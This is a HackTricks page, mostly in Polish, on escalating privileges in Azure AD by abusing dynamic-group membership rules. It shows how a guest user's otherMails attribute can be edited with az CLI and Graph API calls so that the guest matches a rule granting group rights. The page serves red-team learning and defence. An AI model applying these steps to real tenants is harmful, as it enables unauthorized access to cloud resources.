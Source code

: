 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

**Dynamiczne grupy** to grupy, które mają skonfigurowany zestaw **reguł**, a wszyscy **użytkownicy lub urządzenia**, które pasują do tych reguł, są dodawani do grupy. Za każdym razem, gdy **atrybut** użytkownika lub urządzenia jest **zmieniany**, dynamiczne reguły są **ponownie sprawdzane**. A gdy **nowa reguła** jest **tworzona**, wszystkie urządzenia i użytkownicy są **sprawdzani**.

Dynamiczne grupy mogą mieć przypisane **role Azure RBAC**, ale **nie jest możliwe** dodanie **ról AzureAD** do dynamicznych grup.

Ta funkcja wymaga licencji Azure AD premium P1.

## Privesc

Zauważ, że domyślnie każdy użytkownik może zapraszać gości w Azure AD, więc jeśli reguła **dynamicznej grupy** przyznaje **uprawnienia** użytkownikom na podstawie **atrybutów**, które mogą być **ustawione** w nowym **gościu**, możliwe jest **utworzenie gościa** z tymi atrybutami i **eskalacja uprawnień**. Gość może również zarządzać swoim własnym profilem i zmieniać te atrybuty.

Uzyskaj grupy, które pozwalają na dynamiczne członkostwo: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Przykład

* **Przykład reguły**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Opis reguły**: Każdy użytkownik gość z drugim adresem e-mail zawierającym ciąg 'security' zostanie dodany do grupy

Dla adresu e-mail użytkownika gościa, zaakceptuj zaproszenie i sprawdź bieżące ustawienia **tego użytkownika** w [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Niestety strona nie pozwala na modyfikację wartości atrybutów, więc musimy użyć API:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Odniesienia

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
